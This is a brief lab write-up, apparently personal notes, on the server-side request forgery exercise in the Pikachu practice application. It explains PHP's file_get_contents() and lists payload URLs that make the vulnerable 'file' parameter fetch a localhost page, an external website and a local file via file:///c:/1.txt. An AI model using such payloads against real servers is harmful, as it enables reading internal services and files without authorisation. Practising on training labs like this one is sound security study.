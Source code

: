 The file() function reads the entire file into an array. Same as file(), except that file_get_contents() reads the file into a string.

The file_get_contents() function is the preferred method for reading the contents of a file into a string. If supported by the operating system, memory mapping is also used to enhance performance.

exploit

Observe url: http://<IP address !!!>/pikachu/vul/ssrf/ssrf_fgc.php?file=http://127.0.0.1/pikachu/vul/ssrf/ssrf_info/info2.php

Looks like nothing changed, try constructing payload: http://<IP address !!!>/pikachu/vul/ssrf/ssrf_fgc.php?file=http://www.baidu.com

payload: http://<IP address !!!>/pikachu/vul/ssrf/ssrf_fgc.php?file=file:///c:/1.txt

